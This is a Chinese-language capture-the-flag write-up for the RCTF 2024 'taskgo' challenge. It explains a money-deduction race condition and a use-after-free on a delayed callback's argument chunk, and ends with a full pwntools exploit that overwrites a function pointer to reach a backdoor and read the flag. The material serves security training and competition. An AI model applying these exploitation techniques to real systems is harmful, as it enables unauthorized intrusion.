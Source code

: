 ```yaml
---
title: rctf2024 - taskgo 
date: 2024/6/1 02:44:00
tags:
    - race condition
    - uaf
thumbnail: /assets/practice/taskgo1.png
excerpt: 利用条件竞争和UAF漏洞，通过溢出玩家金钱和操控函数指针，成功获取程序的BackDoor地址并提取flag。
---
```


From XCTF x RCTF 2024

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |on    |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序里编译了一个chromium的工具集进去，逆向压力猛增

主要利用了2个条件竞争：

### 第一处

在`CheckMoney`中，函数会先检查玩家的钱是否足够，然后sleep 1秒再扣除，
那么尝试让2次扣钱的操作同时检查，就可以同时扣除，溢出money成一个很大的值

具体来说，是同时买 *Silver Boat* 和 *Flame Scroll*

动调来看，进入Rapid Advance分支后买东西是由`PostTask`发起的，
在IOThread中运行；进入Magic Castle分支买东西在主线程中运行，
故存在条件竞争

![rc1](/assets/practice/taskgo1.png)

要先买船！要不然买法卷会阻塞输入线程导致无法同时买船

### 获取`BackDoor`

通过交叉引用不难看出程序中`Log`函数输出了`BackDoor`，`BackDoor`可以读取文件：
参数是`basic_string`，内容是玩家名字，将文件打开并输出，而参数设置在调用`Log`时完成

要想获取`BackDoor`的地址，只需要购买三种法卷并学习，然后在Magic Castle分支输入1337，
亦即执行`Gods`函数

chromium的std字符串与llvm的libc++中的std字符串一致，这是它的结构：

```c
  struct __long { // if string longer than 23 (including \0)
    char *__data_;
    size_t __size_;
    size_t __cap_ : sizeof(size_t) * 8 - 1;
    size_t __is_long_ : 1;
  };

  struct __short { // if string shorter than 23
    value_type __data_[23];
    unsigned char __size_    : 7;
    unsigned char __is_long_ : 1; // bit field to tag which type is used
  };

  struct basic_string {
    union {
      __long __l;
      __short __s;
    }
  };
```

### 第二处

可以注意到在执行`Gods`前提示等待5s，可能这里也能利用

具体来说，主线程运行到`$rebase(0x4ab8f)`时，post delayed task，
把要运行的函数`Gods`和它的参数`MagicHeld *held`存到`OnceCallback`中，
然后等待3,000,000 **微秒** 后交给IOThread来运行，而`Log`的函数指针，
正好存放在`held`上

在`OnceCallback`中，0x20处存放了要运行的函数指针，0x30处则存放了参数，
这个参数写入了以后就保持不变

已知`DropMS`可以释放`held`，在买了木船后触发`FiveStar`读取用户输入，
随后触发`NoteStar`分配一个输入的内容大小的堆块并将输入的字符串复制上去

在`$rebase(0x4c658)`的位置还可以看到给`held`分配的大小为0x30，
那么只要我们的输入长度与0x30一致，就可以将刚释放的堆块拿回来写入

基于以上思考，我们就可以得出利用链了：

![exp chain](/assets/practice/taskgo2.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './taskgo'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x4b82b)\nc')

    sh.sendline(b'flag') # username
    dbg()
    # buy $1000 silver boat
    sh.sendline(b'1')
    sh.sendline(b'2')
    # buy $10000 flame scroll
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger race condition
    sleep(1.25)
    recv = sh.recv()
    if b'4294' in recv:
        success('money value is overflowed')
    else:
        warn('fail to overflow money')
        sh.close()
        return 0

    FLAME_SCORLL = b'1'
    WATER_SCROLL = b'2'
    STONE_SCROLL = b'3'
    def learnMagic(scroll:bytes, skip:bool=False):
        if not skip:
            # buy scroll
            sh.sendline(b'2')
            sh.sendline(b'1')
            sh.sendline(scroll)
        # learn
        sh.sendline(b'2')
        sh.sendline(b'3')
        # drop the scroll
        sh.sendline(b'2')
        sh.sendline(b'2')
    learnMagic(FLAME_SCORLL, True)
    learnMagic(WATER_SCROLL)
    learnMagic(STONE_SCROLL)
    info('learned 3 magics')

    # buy ms first so we can use "1337"
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger Gods
    sh.sendline(b'2')
    sh.sendline(b'1337')
    sh.recvuntil(b'gift: ')
    backdoor = int(sh.recvline(), 16)
    success(f'Get BackDoor addr: {backdoor:#x}')
    
    # dbg()
    info('syncing program flow...')
    sleep(2)
    # trigger Gods, 3s to do what we want
    sh.sendline(b'2')
    sh.sendline(b'1337')

    # release held pointer
    sh.sendline(b'2')
    sh.sendline(b'2')
    # buy a wooden boat to invoke five-star
    sh.sendline(b'1')
    sh.sendline(b'1')

    # trigger five-star
    info('wait 1s so that we can get into FiveStar')
    sleep(1.5)
    sh.sendline(b'3')
    # alloc held back and overwrite it
    sh.sendlineafter(b'five-star', b'0'*0x28 + p64(backdoor))

    sh.recvuntil(b'RCTF{')
    success(f'Flag is: {"RCTF{"}{sh.recvuntil(b"}").decode()}')
    sh.close()
```
